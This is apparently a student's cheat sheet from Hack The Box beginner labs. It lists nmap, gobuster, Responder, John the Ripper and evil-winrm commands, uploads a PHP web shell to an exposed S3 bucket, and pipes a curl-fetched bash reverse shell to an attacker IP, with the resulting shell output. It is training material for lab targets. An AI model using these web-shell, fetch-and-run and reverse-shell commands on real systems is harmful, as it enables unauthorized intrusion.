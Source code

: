 #nmap

```shell
-sC: Performs a script scan using the default set of scripts. It is equivalent to --
script=default. Some of the scripts in this category are considered intrusive and
should not be run against a target network without permission.

-sV: Enables version detection, which will detect what versions are running on what
port.h

-p- : This flag scans for all TCP ports ranging from 0-65535

--min-rate : This is used to specify the minimum number of packets Nmap should send per
second; it speeds up the scan as the number goes higher
```

#gobuster

```shell
dir : Uses directory/file enumeration mode.
vhosts : Uses VHOST for brute-forcing.

--url : The target URL.
--wordlist : Path to the wordlist.
-x : File extension(s) to search for. (php/html)
```

# Responder:
```shell
sudo responder -I {network_interface} 
http://unika.htb/?page=//10.10.14.25/somefile
```

# John the riper:
```shell
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

#evil-winrm
```shell
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

#AWS
```shell
$ aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
                                                                                                            
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2022-08-14 13:08:27 thetoppers.htb

$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2022-08-14 13:08:27          0 .htaccess
2022-08-14 13:08:27      11952 index.php

$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php              
                                                                                                            
```

# PHP
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id
```

#REVERSE SHELL
Create shell.sh on local machine with the following content:
```shell
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

start ncat listener on our local port and python http server on the same shell.sh directory:
```shell
nc -nvlp 1337
python3 -m http.server 8000
```
On web server open url http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.131:8000/shell.sh|bash

Reverse shell opened on nc terminal:
```shell
$ nc -nvlp 1337
Listening on 0.0.0.0 1337
ls
Connection received on 10.129.55.155 50192
bash: cannot set terminal process group (1612): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$
```
# Acronyms

WinRM, is a Windows-native built-in remote management protocol. port: 5985
NTLM: New Technology LAN Manager
LFI: Local File inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php 
RFI: Remote File Inclusion // File Inclusion Vulnerability // https://www.php.net/manual/en/function.include.php

S3: is a cloud-based object storage service. It allows us to store things in containers called buckets.
AWS S3 buckets have various use-cases including Backup and Storage, Media Hosting, Software Delivery,
Static Website etc. The files stored in the Amazon S3 bucket are called S3 objects.

